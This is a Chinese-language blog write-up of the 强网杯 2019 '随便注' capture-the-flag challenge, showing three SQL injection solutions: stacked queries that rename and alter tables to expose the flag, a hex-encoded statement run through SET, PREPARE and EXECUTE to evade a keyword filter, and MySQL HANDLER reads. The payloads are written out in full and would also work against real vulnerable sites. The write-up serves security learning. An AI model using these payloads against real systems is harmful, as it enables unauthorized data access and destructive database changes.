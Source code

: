 ```yaml
---
title: 强网杯 2019 - 随便注
date: 2024-09-11 21:09:05
permalink: /pages/a7f3bd/
sidebar: false
article: false
author: 
  name: the0n3
  link: https://the0n3.top
---
```


参考：

[【BUUCTF[强网杯 2019]随便注 的三种解法】](https://blog.csdn.net/qq_44657899/article/details/103239145)

## 思路一

```sql
?inject=1' or 1='1
?inject=1' union select 1,2
```

使用联合查询，回显`return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`，显示出过滤的内容

没有过滤分号，可以堆叠注入。显示当前库表

```sql
?inject=1';show tables;
```

有`1919810931114514`,`words`两张表

显示words表的字段

```sql
?inject=1';show columns from words;
```

![1](https://the0n3.top/medias/daily/sql-test/1.png)

当前查询到的信息和words表中字段符合。php里的sql语句查询的是words表，现在不能使用select语句，不考虑盲注的话，**可以利用php当前的sql语句的select查询，需要先把flag所在的表名改为words**

它的sql语句可能是这样

```php
$sql = "select id, data from words";
$result = $conn->query($sql);
if ($result->num_rows > 0) {
    while($row = $result->fetch_assoc()) {
        echo "id: " . $row["id"]. "data: " . $row["data"]. "<br>";
    }
}
```


看看这个数字表里的字段，直接写数字表名查不到信息，需要给数字表名添加上反引号(又学到了)

```sql
?inject=1';show columns from 1919810931114514;
?inject=1';show columns from `1919810931114514`;
```

现在能看到，数字表里只有一个flag，先把words表随便改个名字，再把数字表名改成words

修改表名后，还需要修改和补充字段，现在的words表里没有id字段和data字段，可以插入id字段，修改flag字段的名字

```sql
?inject=1';show tables;rename table words to wow;rename table `1919810931114514` to words;alter table words add id int;alter table words change flag data varchar(100);
```

现在再使用万能密码就可以把flag爆出来了

```sql
?inject=1' or 1='1
```

## 思路二

使用16进制编码查询语句
```sql
select *from `1919810931114514`;
# 编码后，在定义变量赋值时，前面加上0x，不然认不出来
73656c6563742a66726f6d6031393139383130393331313134353134603b
```

又学到了

::: tip
mysql使用set @变量名=值，设置变量  
prepare from预处理语句，会进行解码操作  
execute执行sql语句  
:::

所以可以使用`prepare from`解码一个16进制编码的查询语句，使用execute来执行，这个过程设置把16进制编码设置成变量更方便

题目提示`strstr($inject, "set") && strstr($inject, "prepare")`，set,prepare不能同时小写

```sql
?inject=1';SeT @a=0x73656c6563742a66726f6d6031393139383130393331313134353134603b;prepare execsql from @a;execute execsql;
```

测试了一下，很舒服哈哈，编码的表名需要使用反引号包裹

![sql](https://the0n3.top/medias/daily/sql-test/sql.png)

## 思路三

MySQL 的底层操作，用于直接访问表的行

```sql
?inject=1'; handler `1919810931114514` open as `a`; handler `a` read next;#
```

解释

```sql
-- 打开表
HANDLER `example_table` OPEN AS `a`;

-- 读取第一行
HANDLER `a` READ NEXT;

-- 读取第二行
HANDLER `a` READ NEXT;

-- 继续读取其他行
-- 直到你读取完所有行

-- 关闭表
HANDLER `a` CLOSE;
```

![handler](https://the0n3.top/medias/daily/sql-test/handler.png)